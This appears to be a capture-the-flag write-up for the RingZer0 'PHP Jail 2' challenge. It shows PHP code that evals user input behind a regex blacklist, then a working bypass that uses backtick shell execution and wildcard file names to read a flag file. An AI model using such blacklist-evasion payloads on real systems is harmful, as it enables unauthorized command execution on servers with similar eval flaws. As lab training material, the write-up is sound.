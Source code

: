 # PHP Jail 2

LINK : https://ringzer0ctf.com/challenges/224

# My Approach
- Let's login
- Password is flag of first question PHP Jail 1
```sh
$ ssh level2@challenges.ringzer0team.com -p 10223
RingZer0 Team Online CTF

PHP Jail Level 2
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge PHP code:
-----------------------------

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(\/|a|c|s|require|include|flag|eval|file)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:
```
Interesting, it's first problem with a twist.

What's the twist ?
- we can use $
- we can use system/ exec/ etc
- But we cannot use a/c/s alphabets, which makes it interesting

Let's try somethings

```sh
system('ls');
Restricted characters has been used
```
Ahh, we cannot use **s**

- Let's check how to use system command in php
- System : http://php.net/manual/en/function.system.php
- See also in PHP docs shows : `Backticks`

Let's try to use ``, 
Example : 
```php
<?php
$output = `ls -al`;
echo "<pre>$output</pre>";
?>
```
- So we can execute commands just by ``
- Now we have to CAT this file, but we cannot use CAT command, grep maybe 
- Quick google search shows cat, grep, sed, awk, head, tail
- Seems we can use only `grep` as a/c/s is not allowed

Grep :
- Now we have to grep FLAG in flag.txt
- simple grep command `grep -E 'F' flag.txt`

Wild Cards :
- However we cannot use flag keyword. Instead we can use wildcard, which can be ????.???
- So our command will be modified to `grep -E 'F' ????.???`
- Since we cannot use `echo`, we can use `print`

```sh
print `grep -E 'F' ????.???`
YOUR FLAG HERE :D
```

